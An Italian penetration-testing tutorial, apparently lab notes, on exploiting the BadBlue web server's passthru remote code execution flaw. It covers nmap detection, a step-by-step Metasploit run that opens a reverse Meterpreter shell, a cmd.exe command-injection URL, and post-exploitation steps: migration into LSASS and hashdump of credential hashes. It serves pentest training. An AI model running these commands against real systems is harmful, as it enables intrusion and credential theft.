 # CVE-2002-1103 BadBlue

**BadBlue** è un server web per Windows originariamente sviluppato per la condivisione di file su piccola scala. È stato distribuito come freeware nei primi anni 2000 ed è noto per la sua interfaccia semplice e la leggerezza.

Tuttavia, versioni obsolete di BadBlue – in particolare la **versione 2.7.0** – sono affette da una **vulnerabilità critica** che permette l'esecuzione remota di codice (**RCE**) sfruttando una cattiva gestione delle richieste HTTP e delle variabili CGI. Questo lo rende un target interessante nei contesti di penetration testing su macchine legacy o ambienti lab.

---

## 1 – Introduzione alla vulnerabilità

Il software BadBlue include un interprete integrato per script **.ext**, che possono eseguire comandi sul sistema. Tuttavia, non esiste un controllo adeguato su ciò che può essere eseguito tramite input remoto.

La vulnerabilità sfrutta il fatto che una richiesta GET/POST opportunamente formattata può iniettare comandi direttamente nel sistema operativo ospitante, ottenendo **completa esecuzione di codice arbitrario** con i privilegi dell’utente che esegue il processo.

La vulnerabilità è stata storicamente catalogata come **CVE-2002-1103**, anche se exploit più moderni si riferiscono spesso a **BadBlue passthru.exe RCE**.

---

## 2 – Rilevazione del servizio BadBlue

Il server BadBlue ascolta solitamente sulla porta **80**. Per verificarne la presenza e la versione:

`nmap -p80 -sV <IP>` <br>

Una firma specifica di BadBlue è visibile nella **pagina di default** o nella risposta del banner HTTP.  
Visitando `http://<IP>/`, potremmo trovare riferimenti al software.

---

## 3 – Exploiting con Metasploit

Metasploit offre un modulo dedicato all’exploit RCE di BadBlue:

`use exploit/windows/http/badblue_passthru` ⟶ modulo exploit per il servizio CGI di BadBlue. <br>
`set RHOST <IP>` ⟶ indirizzo della macchina target. <br>
`set RPORT 80` ⟶ porta del server BadBlue. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ payload per ottenere shell. <br>
`set LHOST <KaliIP>` ⟶ IP locale della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta in ascolto. <br>
`run` ⟶ avvia l’exploit e tenta di ottenere la reverse shell. <br>

Se l’attacco va a buon fine, si riceverà una sessione Meterpreter con i privilegi del processo BadBlue (spesso SYSTEM).

Dopo l’esecuzione e l’apertura di una sessione Meterpreter, si cerca il processo `lsass.exe` (Local Security Authority Subsystem Service), responsabile della gestione delle autenticazioni sul sistema. È proprio all'interno della memoria di questo processo che vengono archiviati gli hash NTLM e le credenziali in chiaro.

`ps | grep lsass` ⟶ Puoi identificare il PID di LSAS 

Una volta ottenuto il PID, si migra il payload di Meterpreter dentro LSASS

`migrate <PID>` ⟶ il PID dev'essere quello di lsass

Verifica che l’utente corrente abbia privilegi SYSTEM

`getuid`

Il risultato atteso dovrebbe essere simile a:
```
Server username: NT AUTHORITY\SYSTEM
```

Il modulo sfrutta il file **passthru.ext**, usato da BadBlue per interpretare e inoltrare richieste.  
Un esempio di URL vulnerabile potrebbe essere:

`http://<IP>/ext.dll?m=passthru&b=cmd.exe+/c+dir`

Con questa richiesta, viene eseguito `cmd.exe /c dir`, mostrando la lista dei file nella directory di lavoro.

---

## 4 – Verifica e post-exploitation

Una volta ottenuta la shell:

`getuid` ⟶ verifica l’utente attuale (es. `NT AUTHORITY\\SYSTEM`). <br>
`getprivs` ⟶ elenca i privilegi ottenuti. <br>
`hashdump` ⟶ se possibile, estrae gli hash utente da SAM. <br>
`migrate <PID>` ⟶ consente di migrare ad un processo più stabile. <br>

---

